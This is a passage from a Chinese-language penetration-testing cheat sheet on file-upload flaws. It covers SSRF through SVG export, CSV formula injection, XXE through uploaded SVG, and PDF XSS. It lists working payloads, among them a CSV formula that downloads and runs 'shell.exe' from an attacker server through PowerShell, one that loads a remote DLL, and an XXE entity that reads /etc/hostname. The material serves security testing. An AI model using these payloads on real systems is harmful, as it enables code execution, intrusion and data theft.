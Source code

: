    ```bash
        ![20240526221856](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526221856.png)

    如果目标存在导出功能，如给svg导出为pdf这种功能，那么可能存在SSRF

    ```xml
    <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
        <image height="30" width="30"xlink:href="https://controlledserver.com/pic.svg" />
    </svg>
    ```

    可尝试使用其他协议更直观的查看，如`file://`

    </details>



### 上传 CSV
如果允许上传CSV文件，且上传的CSV文件的内容未经过处理过滤直接保存，那么可以尝试上传具有恶意命令执行payload的CSV文件，当其他用户下载该CSV文件时，可能会导致命令执行。
```xml title="CSV Payload"
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```
**检查思路：**

1. 上传恶意的CSV文件
2. 下载恶意的CSV文件
3. 观察下载后的CSV文件是否对`等号=`等特殊符号做了处理，payload会否会成功执行，如果能则说明存在问题

### 允许上传XML格式文件并解析

如果允许上传XML格式文件，如docx、xlsx、svg等本质是xml的文件，且后端会对上传的文件进行解析，那么可能存在XXE

以恶意svg为例，一般尝试OOB外带注入的方式来判断最快

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

恶意的XXE文档生成：[docm](https://github.com/whitel1st/docem)

### 允许上传 PDF
可能存在PDF XSS和任意URL跳转，但是由于属于浏览器层面的漏洞，所以厂商大概率不认可。
- 使用工具生成 : [PayloadsAllThePDFs](https://github.com/luigigubello/PayloadsAllThePDFs)
- 参考网上教程, 用迅捷PDF编辑器去操作，效果都一样
